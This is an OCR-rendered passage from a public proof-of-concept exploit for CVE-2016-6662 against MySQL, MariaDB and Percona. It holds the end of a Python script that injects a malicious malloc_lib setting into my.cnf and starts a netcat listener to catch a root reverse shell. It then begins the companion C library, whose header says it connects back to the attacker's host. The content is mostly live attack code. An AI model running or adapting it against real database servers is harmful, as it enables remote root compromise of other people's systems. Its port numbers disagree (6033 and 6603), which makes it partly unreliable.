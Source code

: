 ~~~~~~~~~~~~~~~~~~~~~~~~~
except mysql.connector.Error as err:
    errmsg("Something went wrong: {}".format(err))
    shutdown(6)

# Check on the config that was just created
info("Showing the contents of %s config to verify that our setting (malloc_lib) got injected" % args.TARGET_MYCNF )
try:
    cursor = dbconn.cursor()
    cursor.execute("SELECT load_file('%s')" % args.TARGET_MYCNF)
except mysql.connector.Error as err:
    errmsg("Something went wrong: {}".format(err))
    shutdown(2)
finally:
    dbconn.close()  # Close DB connection
print ""
myconfig = cursor.fetchall()
print myconfig[0][0]
info("Looks messy? Have no fear, the preloaded lib mysql_hookandroot_lib.so will clean up all the mess before mysqld daemon even reads it :)")

# Spawn a Shell listener using netcat on 6033 (inverted 3306 mysql port so easy to remember ;)
info("Everything is set up and ready. Spawning netcat listener and waiting for MySQL daemon to get restarted to get our rootshell... :)" )
listener = subprocess.Popen(args=["/bin/nc", "-lvp","6033"])
listener.communicate()
print ""

# Show config again after all the action is done
info("Shell closed. Hope you had fun. ")

# Mission complete, but just for now... Stay tuned :)
info("""Stay tuned for the CVE-2016-6663 advisory and/or a complete PoC that can craft a new valid my.cnf (i.e no writable my.cnf required) ;)""")


# Shutdown
shutdown(0)


---------------------------------------------------





----------[ mysql_hookandroot_lib.c ]--------------

/*

MySQL / MariaDB / Percona -  Remote Root Code Execution / Privesc PoC Exploit
CVE-2016-6662
mysql_hookandroot_lib.c

This is the shared library injected by 0ldSQL_MySQL_RCE_exploit.py exploit.
The library is meant to be loaded by mysqld_safe on mysqld daemon startup
to create a reverse shell that connects back to the attacker's host on
6603 port (mysql port in reverse ;) and provides a root shell on the
target. 

mysqld_safe will load this library through the following setting:

[mysqld]
~~~~~~~~~~~~~~~~~~~~~~~~~